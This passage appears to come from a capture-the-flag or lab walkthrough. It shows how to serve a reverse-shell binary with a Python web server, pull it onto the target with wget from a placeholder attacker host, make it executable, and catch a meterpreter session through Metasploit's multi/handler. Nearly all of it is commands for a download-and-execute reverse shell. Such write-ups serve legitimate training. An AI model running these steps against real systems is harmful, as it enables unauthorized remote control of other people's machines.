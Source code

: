 python3 -m http.server LOCAL_PORT
```
![image](https://user-images.githubusercontent.com/14150485/170594374-56a2130a-9e4b-43d3-8da8-a23df4c92e16.png)


Next up, we pull the file using the ```wget``` command via SSH on the target system from our local machine through the temporary server we set up.
```
wget http://LOCAL_IP:LOCAL_PORT/rev_shell.elf
```
![2022-05-26 21_54_30-Kali  Running  - Oracle VM VirtualBox](https://user-images.githubusercontent.com/14150485/170579643-b99389eb-0737-4b35-805e-c7fecb75757b.png)

While still on the target machine, we need to change the permissions on the ```rev_shell.elf``` file we just pulled before we proceed to execute it.

```
chmod +x rev_shell.elf
```
![image](https://user-images.githubusercontent.com/14150485/170581779-2d0cabf9-906d-406d-bbdd-e8595ba07e93.png)

```
No answer needed
```
<br />

### 6.4: Get a meterpreter session on the target machine.

<br />

On our local machine, we launch "msfconsole".
```
msfconsole
```
For the purposes of this section we will be using the ```exploit/multi/handler``` module, also known as ```Generic Payload Handler```.
```
use exploit/multi/handler
```
The payload value for this module must be set to match the payload used upon creation of the ```rev_shell.elf``` file.
```
set payload linux/x86/meterpreter/reverse_tcp
```
We can then proceed to set the ```LHOST``` value to our local IP address, ```LPORT``` to the port number specified on the ```rev_shell.elf``` file, and run the exploit.
```
set LHOST LOCAL_IP
set LPORT LOCAL_PORT
run
```
With our multi handler running, we proceed to execute the ```rev_shell.elf``` file on the target system via SSH.
```
./rev_shell.elf
```
![image](https://user-images.githubusercontent.com/14150485/170582370-abdd61e2-e6ff-4f8b-9a03-2186ea01ea24.png)

And we got a shell!

![2022-05-26 22_25_34-Kali  Running  - Oracle VM VirtualBox](https://user-images.githubusercontent.com/14150485/170582787-aa8aaf13-e104-4c23-a49c-3d31e6ad2b00.png)

```
